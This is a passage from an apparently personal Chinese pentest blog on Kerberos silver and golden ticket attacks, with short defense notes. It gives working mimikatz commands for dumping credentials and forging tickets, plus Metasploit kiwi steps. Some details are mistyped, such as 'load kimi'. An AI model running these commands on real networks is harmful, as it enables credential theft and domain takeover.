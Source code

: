 kerberos::list ==列出票据==

kerberos::purge ==清除票据==

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt  ==导出票据==

mimikatz.exe "kerberos::golden /domain:域名 /sid:域sid /target:目标服务器的主机名 /service:服务类型 /rc4:NTLM hash /user:用户名 /ptt" exit ==生成票据到内存(用户名可以随便写因为他不会去验证)==



服务类型看这里

![image-20220302203025623](D:\Code\pojo\Blog\BlogHexo\public\img\kerberos-8.png)



防御:

1.尽量保证服务器凭证不被窃取

2.开启PAC(每次提交票据都需要验证)

开启PAC方法HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parametes中的ValidateKdcPacSignature设置为1



### 黄金票据

**条件**

- 需要DC通信
- 需要krbtgt用户的hash(就是KDC hash)

**特点**

能够持久性的隐藏,日志无法溯源,拿到DC权限后能够长时间控制域



**防御:**

需要经常换密码.最根本的方法是不允许域管理账号登录到其他的服务器



**使用msf的kiwi模块**

session -i 1

load kimi              (加载进来以后可以使用帮助命令查看有哪些功能)

kerberos_ticket_list

![image-20220302204643664](D:\Code\pojo\Blog\BlogHexo\public\img\kerberos-9.png)



mimikatz.exe "kerberos::golden /domain:域名 /sid:域sid /target:目标服务器的主机名 /service:服务类型 /rc4:\<KRBTGT NTLM hash\> /user:用户名 /ptt" exit ==生成票据到内存(用户名可以随便写因为他不会去验证)==



### Windows access token
